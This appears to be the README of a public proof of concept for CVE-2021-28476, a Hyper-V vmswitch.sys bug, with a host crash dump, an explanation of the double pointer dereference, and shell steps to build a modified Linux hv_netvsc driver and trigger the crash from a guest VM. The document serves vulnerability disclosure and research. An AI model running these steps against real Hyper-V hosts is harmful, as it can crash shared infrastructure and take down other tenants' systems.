



# CVE-2021-28476: a guest-to-host "Microsoft Hyper-V Remote Code Execution Vulnerability" in vmswitch.sys.

This is a proof of concept for [CVE-2021-28476](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-28476) ("Hyper-V Remote Code Execution Vulnerability"), an arbitrary memory read in `vmswitch.sys` (*network virtualization service provider*) patched by Microsoft in May 2021.



The vulnerability was found by [@australeo](https://twitter.com/australeo), [@ergot86](https://twitter.com/ergot86), [@peleghd](https://twitter.com/peleghd) and [@OphirHarpaz](https://twitter.com/OphirHarpaz). It is triggerable by a guest virtual machine sending a malicious RNDIS packet over [VMBus](https://docs.microsoft.com/en-us/virtualization/hyper-v-on-windows/reference/hyper-v-architecture) (which is a *channel-based communication mechanism used for inter-partition communication*).



This is what the **host** system crash looks like in a debugger:

```text
*** Fatal System Error: 0x0000007e
                       (0xFFFFFFFFC0000005,0xFFFFF80AD4A41A63,0xFFFFB70DD7EB7028,0xFFFFB70DD7EB6860)

Break instruction exception - code 80000003 (first chance)

A fatal system error has occurred.
Debugger entered on first try; Bugcheck callbacks have not been invoked.

A fatal system error has occurred.

nt!DbgBreakPointWithStatus:
fffff801`31412c50 cc              int     3

kd> .cxr 0xffffb70dd7eb6860
rax=fffff80ad4bc7214 rbx=fffff80ad4bf62a0 rcx=0000000000000000
rdx=00000000047a2807 rsi=ffffb70dd7eb7420 rdi=ffffa58caa318f00
rip=fffff80ad4a41a63 rsp=ffffb70dd7eb7260 rbp=ffffa58caa318fe0
 r8=0000000000000000  r9=000000000000013b r10=deadbeefbaadc0be
r11=ffffb70dd7eb7230 r12=fffff80ad4bc73d0 r13=00000000c0000001
r14=00000000000021f0 r15=fffff80ad4bc7360
iopl=0         nv up ei pl zr na po nc
cs=0010  ss=0018  ds=002b  es=002b  fs=0053  gs=002b             efl=00050246
vmswitch!VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST+0xfb:
fffff80a`d4a41a63 418b4a20        mov     ecx,dword ptr [r10+20h] ds:002b:deadbeef`baadc0de=????????

kd> kp
 # Child-SP          RetAddr               Call Site
00 ffffb70d`d7eb7260 fffff80a`d4a3ee41     vmswitch!VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST+0xfb
01 ffffb70d`d7eb7300 fffff80a`d4a3fc76     vmswitch!VmsIfrInfoParamsNdisOidRequestBuffer+0x14d
02 ffffb70d`d7eb7380 fffff80a`d4a3c779     vmswitch!RndisDevHostHandleSetMessage+0x196
03 ffffb70d`d7eb7420 fffff801`3136f423     vmswitch!RndisDevHostControlMessageWorkerRoutine+0x199
04 ffffb70d`d7eb74c0 fffff801`3123a975     nt!IopProcessWorkItem+0x93
05 ffffb70d`d7eb7530 fffff801`3132ce85     nt!ExpWorkerThread+0x105
06 ffffb70d`d7eb75d0 fffff801`31412408     nt!PspSystemThreadStartup+0x55
07 ffffb70d`d7eb7620 00000000`00000000     nt!KiStartSystemThread+0x28
```

The bug itself happens in `VmsIfrInfoParams_OID_SWITCH_NIC_REQUEST` which is a function that can be called with attacker-controlled data (which it shouldn't) and dereference twice a pointer (`boom->_win` below) that a malicious guest virtual machine can provide.



If this is interesting to you, [@peleghd](https://twitter.com/peleghd) and [@OphirHarpaz](https://twitter.com/OphirHarpaz) will be discussing this in details as well as the discovery process in a [BlackHat USA 2021](https://www.blackhat.com/us-21/) presentation entitled [hAFL1: Our Journey of Fuzzing Hyper-V and Discovering a 0-Day](https://www.blackhat.com/us-21/briefings/schedule/index.html#hafl-our-journey-of-fuzzing-hyper-v-and-discovering-a--day-23498).

## Running the PoC

The easiest way to run the PoC is to create a Linux virtual machine running the latest [Ubuntu Focal](https://releases.ubuntu.com/focal/).

Once this is done, clone the matching kernel sources:

```bash
$ uname -a
Linux tourdeforce 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
$ git clone git://kernel.ubuntu.com/ubuntu/ubuntu-focal.git
$ cd ubuntu-focal
$ git checkout Ubuntu-5.4.0-73.82
$ git branch fbl_vswitch
$ git checkout fbl_vswitch
```

Replace `~/ubuntu-focal/drivers/net/hyperv/netvsc_drv.c` by [src/netvsc_drv.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/netvsc_drv.c), `~/ubuntu-focal/drivers/net/hyperv/rndis_filter.c` by [src/rndis_filter.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/rndis_filter.c) and `~/ubuntu-focal/drivers/net/hyperv/hyperv_net.h` by [src/hyperv_net.h](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/hyperv_net.h) (full diff available in [cve-2021-28476.diff](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/cve-2021-28476.diff)):

```bash
$ sudo apt-get install git build-essential kernel-package fakeroot libncurses5-dev libssl-dev ccache bison flex libelf-dev dwarves
$ cp /boot/config-5.4.0-73-generic .config
$ make oldconfig
$ make modules
$ make M=drivers/net/hyperv
```

Finally, trigger the issue by loading the module and change the ethernet address of the network interface (this action triggers the specific code-path we added in [rndis_filter.c](https://github.com/0vercl0k/CVE-2021-28476/tree/main/src/rndis_filter.c) / `netvsc_set_mac_addr`):

```bash
$ sudo rmmod hv_netvsc && insmod drivers/net/hyperv/hv_netvsc.ko
$ sudo ifconfig eth0 hw ether 00:11:22:33:44
```

# Authors

* Axel '[@0vercl0k](https://twitter.com/0vercl0k)' Souchet
